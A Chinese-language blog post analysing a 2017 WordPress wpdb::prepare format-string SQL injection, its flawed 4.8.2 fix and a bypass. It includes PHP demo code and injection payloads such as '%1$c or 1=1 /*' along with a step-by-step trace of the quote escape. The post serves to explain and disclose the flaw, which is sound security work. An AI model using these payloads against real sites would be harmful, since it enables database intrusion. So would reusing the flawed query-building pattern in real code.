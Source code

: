 ```yaml
---
layout: post
title:  wordpress 格式化字符串注入
date: 2017-11-2
categories: 漏洞分析
tags:  php sql注入
---
```



* content
{:toc}


## wordpress 格式化字符串注入

wordpress 格式化字符串注入，漏洞利用难度很大，但是格式化字符串注入新颖程度和利用技巧都值得学习，小小分析一波。第一次漏洞在4.8.2被修复，再次被绕过，目前最新版是4.8.3。









## 漏洞分析


### 格式化字符串漏洞小demo

	$items = '%1$c) or 1=1 /*';
	$baz = 39;
	$string_a = "where bar in ('$items') and baz = %s" ;
	$string_a = vsprintf($string_a, $baz);
	echo $string_a;
	
sprintf和vsprintf都允许绝对引用，使用```%n$s```不会去读下一个参数，而是会读第n个占位符的数据，而占位符```%c```像```chr()```类似，把数字转换成字符，39是```'```的ascii码，所以就可以在sql注入中造成单引号逃逸

最后输出结果

	SELECT * FROM foo WHERE bar IN ('') OR 1 = 1 /*' AND baz = 39;

这是一个很惊喜的操作，在wordpress4.8.1源码中有如下源码

	if ( $delete_all ) {
		$value_clause = '';
		if ( '' !== $meta_value && null !== $meta_value && false !== $meta_value ) {
			$value_clause = $wpdb->prepare( " AND meta_value = %s", $meta_value );
		}

		$object_ids = $wpdb->get_col( $wpdb->prepare( "SELECT $type_column FROM $table WHERE meta_key = %s $value_clause", $meta_key ) );
	}

现实环境中很难同时控制```$meta_key```和```$value_clause($meta_value)```,所以对这个漏洞进行利用非常困难。为了分析方便，来构造一个类wp的小demo，输出可以进行逃逸的sql语句为成功，注:prepare代码在附录中

	$meta_key = '39';
	$meta_value = '%1$c or 1=1 /*';
	$value_clause = prepare( " AND meta_value = %s", $meta_value );
	$type_column = 'test';
	$table = 'test';
	$string_b = prepare( "SELECT $type_column FROM $table WHERE meta_key = %s $value_clause", $meta_key );
	echo $string_b;

最后输出 ```$string_b``` 为 ```SELECT test FROM test WHERE meta_key = '39'  AND meta_value = '' or 1=1 /*'```,一番很理论的操作之后得到的结果。

### 4.8.2代码修复

wordpress 在prepare中添加了过滤代码

	$query = preg_replace( '/%(?:%|$|([^dsF]))/', '%%\\1', $query ); // escape any unescaped percents 

1. 正则表达式只允许 %d,%s和%F，数字，字符串和浮点数三种类型
2. 使%n$s这种绝对位置不合法

这样修复导致了 大量使用 ```%4s```这样占位符的代码出现问题,(理论上)

	$db->prepare("SELECT * FROM foo WHERE name= '%4s' AND user_id = %d", $_GET['name'], get_current_user_id());

在这样点的代码中```%4s```会成为```%%4s```,```$_GET['name']``` 输出在```user_id = %d```，攻击者控制```user_id```.

绕过

	$meta_key = ['dump', 'or 1=1 /*'];
	$meta_value = ' %s ';

注意meta_value变量值 空格%s空格
	
	1.初始值
	query = "AND meta_value = %s"
	2.经过 $query = preg_replace( '|(?<!%)%s|', "'%s'", $query ); 替%s得到'%s'
	query = "AND meta_value = '%s'"
	3.格式化字符串输出vsprintf(query,args); args = ' %s '
	query = "AND meta_value = ' %s '"
	4.拼接字符串"SELECT $type_column FROM $table WHERE meta_key = %s $value_clause"
	query = "SELECT test FROM test WHERE meta_key = %s  AND meta_value = ' %s '"
	5.str_replace( "'%s'", '%s', $query ); // in case someone mistakenly already singlequoted it 原来是将'%s'替换成%s的操作，但是因为' %s '不满足字符串匹配条件
	query = "SELECT test FROM test WHERE meta_key = %s  AND meta_value = ' %s '"
	6.经过正则匹配过滤 $query = preg_replace( '|(?<!%)%s|', "'%s'", $query ); 替换%s得到'%s'
	query = "SELECT test FROM test WHERE meta_key = '%s'  AND meta_value = ' '%s' '"
	7.拼接字符串输出vsprintf(query,args); args=['dump', 'or 1=1 /*']
	query= "SELECT test FROM test WHERE meta_key = 'dump'  AND meta_value = ' 'or 1=1 /*' '"

可以看到输出query已经经过了单引号逃逸

### 格式化字符串漏洞分析

vsprintf使用绝对占位符，sprintf和vsprintf具有同样的特性

	vsprintf('%s, %d, %s', ["a", 1, "b"]); // "a, 1, b"
	vsprintf('%s, %d, %1$s', ["a", 2, "b"]); // "a, 2, a"

在参考2中提了另一种单引号逃逸，``` %1$'%s'``` 其中 ```%```构成padding，使```'```逃逸
![](https://raw.githubusercontent.com/SuperXiaoxiong/SuperXiaoxiong.github.io/master/img/wpdb_sql.PNG)


	Example #8 printf(): string specifiers
	
	<?php
	$s = 'monkey';
	$t = 'many monkeys';
	
	printf("[%s]\n",      $s); // standard string output
	printf("[%10s]\n",    $s); // right-justification with spaces
	printf("[%-10s]\n",   $s); // left-justification with spaces
	printf("[%010s]\n",   $s); // zero-padding works on strings too
	printf("[%'#10s]\n",  $s); // use the custom padding character '#'
	printf("[%10.10s]\n", $t); // left-justification but with a cutoff of 10 characters
	?>
	以上例程会输出：
	
	[monkey]
	[    monkey]
	[monkey    ]
	[0000monkey]
	[####monkey]
	[many monke]

## 修复

### 简单修复

不允许用户的输入传入query，构造查询语句，可以构造查询模板

### 缓和修复

使用随机生成占位符替换%,查询之前在替换回来

[wp官方漏洞4.8.3修复代码](https://github.com/WordPress/WordPress/blob/4.8.3/wp-includes/wp-db.php)

## 参考链接

1. [针对wp中sql查询设计存在的不合理和漏洞分析原文](https://blog.ircmaxell.com/2017/10/disclosure-wordpress-wpdb-sql-injection-technical.html)
2. [404实验室分析](https://paper.seebug.org/386/)

## 附录

	$query = preg_replace( '/%(?:%|$|([^dsF]))/', '%%\\1', $query ); 
4.8.1及之前，这条语句不存在，4.8.2加入，是一次错误的修复
	
	function prepare( $query, $args ) {
	    if ( is_null( $query ) )
	        return;
	
	    // This is not meant to be foolproof -- but it will catch obviously incorrect usage.
	    if ( strpos( $query, '%' ) === false ) {
	        //_doing_it_wrong( 'wpdb::prepare', sprintf( __( 'The query argument of %s must have a placeholder.' ), 'wpdb::prepare()' ), '3.9.0' );
	        echo $query;
	        echo '\r\n';
	    }
	
	    $args = func_get_args();
	    array_shift( $args );
	    // If args were passed as an array (as in vsprintf), move them up
	    if ( isset( $args[0] ) && is_array($args[0]) )
	        $args = $args[0];
	    $query = str_replace( "'%s'", '%s', $query ); // in case someone mistakenly already singlequoted it
	    $query = str_replace( '"%s"', '%s', $query ); // doublequote unquoting
	    $query = preg_replace( '|(?<!%)%f|' , '%F', $query ); // Force floats to be locale unaware
	    $query = preg_replace( '|(?<!%)%s|', "'%s'", $query ); // quote the strings, avoiding escaped strings like %%s
	    //$query = preg_replace( '/%(?:%|$|([^dsF]))/', '%%\\1', $query ); // escape any unescaped percents
	    array_walk( $args, array( $this, 'escape_by_ref' ) );
	    return @vsprintf( $query, $args );
	}



